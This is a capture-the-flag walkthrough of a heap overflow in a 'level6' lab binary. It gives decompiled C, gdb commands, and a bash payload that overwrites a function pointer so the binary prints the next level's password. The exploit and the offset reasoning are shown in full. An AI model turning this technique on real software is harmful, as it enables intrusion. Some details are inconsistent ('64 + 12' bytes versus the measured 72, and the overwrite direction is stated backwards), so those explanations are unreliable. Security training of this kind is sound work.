 # Walkthrough

## Reversing

```c
void main(int argc,char **argv)
{
  char *__dest;
  code **ppcVar1;

  __dest = (char *)malloc(64);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,argv[1]);
  (**ppcVar1)();
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  puts("Nope");
  return;
}

void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}
```

Okey, another easy one, `strcpy` is well knonw to be unsafe, it is susceptible
to buffer overflow.

Why you ask? Well, because looking at its prototype
`char *strcpy(char *dest, const char *src)` we can see that there is no actual
check for bounds and if the source is bigger than the destination then the
remaining bytes will overflow in the memory and will possibly override
important areas of memory (which is exactly what we’re going to do).

## Exploit

But how do we exploit this? Well, this binary is ratter interesting, it
executes the malloc in a certain interesting order, so `ppcVar1` will be
just behind `__dest`, so if we overflow `ppcVar1`, we can overwrite `__dest`,
let's make sure this is true with gdb:
```bash
gdb ./level6
b *main+21
b *main+37
r
p/x $eax
c
p/x $eax
```

This are the heap addresses returned by the mallocs (ir order):
```raw
0x0804a008
0x0804a050
```

A quick substract show us that indeed, the second malloc is just after the
first malloc (which has a size of 64 bytes):
```bash
echo 'ibase=16;804A050-804A008' | bc
72
```

The 12 additional bytes are probably the `malloc_chunk` struct of `libc`, we
should not overwrite that, of course, but who cares, we are exploiting a
binary.

So, our `argv[1]` should be something in the lines of:
- `64` + `12` offset bytes.
- `08048454` address of `n`, to overwrite `ppcVar1`.

Let's try:
```bash
offset=$(printf "%72s" " " | tr ' ' 'A')
address='08048454'
address=$(printf \\x${address:6:2}\\x${address:4:2}\\x${address:2:2}\\x${address:0:2})
payload="${offset}${address}"

./level6 "${payload}"
```

Of course I also created an script in `./resources/exploit.sh`.

And... Boom! Flag obtained! `\(^o^)/`

